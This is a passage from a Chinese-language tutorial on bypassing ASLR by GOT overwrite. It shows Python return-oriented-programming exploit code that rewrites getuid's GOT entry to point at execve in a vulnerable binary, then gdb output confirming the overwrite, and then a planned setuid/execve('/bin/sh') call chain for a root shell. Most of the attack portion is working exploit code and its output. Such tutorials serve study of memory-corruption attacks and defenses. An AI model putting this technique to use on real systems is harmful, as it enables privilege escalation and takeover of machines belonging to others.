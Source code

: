 ``` python
buf += conv(g5) #pop ebx; ret;
buf += conv(ebx) #ebx
buf += conv(g4) #mov 0x34(%esp),%eax; ...
for num in range(0,11):
 buf += conv(dummy)
buf += conv(g2) #pop ebx; pop ebp; ret;
ebx = 0xaaa99b40 #getuid@GOT-0x5d5b04c4
buf += conv(ebx)
buf += conv(off)
buf += conv(g1) #addl %eax, 0x5D5B04C4(%ebx); ret;
buf += "B" * 4
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上面的漏洞利用代码会生成一个core文件。打开core文件，可以看到GOT[getuid]被execve函数地址覆盖了(如下所示)  

```
$ python oexp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��ﾭ�ﾭ�ﾭ�ͅﾭހ�����ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭޢ�@���0�����BBBB
Len:376
sploitfun@sploitfun-VirtualBox:~/lsploits/new/aslr/part3$ sudo gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/aslr/part3/vuln...(no debugging symbols found)...done.
(gdb) core-file core 
[New LWP 18781]
warning: Can't read pathname for load map: Input/output error.
Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0 0x42424242 in ?? ()
(gdb) x/1xw 0x804a004
0x804a004 <getuid@got.plt>: 0xb761a1f0
(gdb) p getuid
$1 = {} 0xb761acc0 
(gdb) p execve
$2 = {} 0xb761a1f0 
(gdb)
```
太棒了，我们已经成功利用execve函数地址覆盖了getuid的GOT表项。因此从现在开始，任意对getuid的调用都会调用execve~~  

触发 root shell： 我们的漏洞利用代码还不完整。我们只执行了GOT覆盖但还没有触发root shell。 为了触发一个root shell， 将下面的libc函数(以及它们的参数)拷贝到栈中  

seteuid@PLT | getuid@PLT | seteuid_arg | execve_arg1 | execve_arg2 | execve_arg3  
这里  

* setuid@PLT - setuid的plt代码地址（0x80483c0)
* getuid@PLT - getuid的plt代码地址（0x80483b0)。 由于已经执行了GOT覆盖，这里会调用execve函数
* setuid_arg必须为0才能获取root shell
* execve_arg1 - 文件名 - 字符串“/bin/sh”的地址
* execve_arg2 - argv - 参数数组的地址，内容为[ “/bin/sh”的地址, NULL]
* execve_arg3 - envp - NULL
在这篇文章中，由于我们没有直接用0来溢出缓冲区(0是个不好的字符), 我们利用strcpy调用链拷贝0用来替代setuid_arg。但由于栈是被随机化的，这种方法在这里并不可行， 找出setuid_arg栈的地址变得困难起来。  
